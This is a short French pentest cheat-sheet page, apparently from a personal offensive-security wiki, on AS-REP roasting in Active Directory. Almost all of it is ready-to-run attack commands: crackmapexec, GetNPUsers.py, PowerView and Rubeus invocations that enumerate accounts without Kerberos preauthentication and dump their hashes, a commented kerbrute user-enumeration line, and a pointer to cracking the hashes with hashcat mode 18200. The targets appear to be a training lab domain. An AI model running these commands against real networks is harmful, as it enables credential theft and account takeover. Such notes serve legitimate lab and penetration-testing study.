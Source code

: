 ```yaml
---
public: true # set to true to make the article publishable
---
```


Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 

# Powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 


```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]
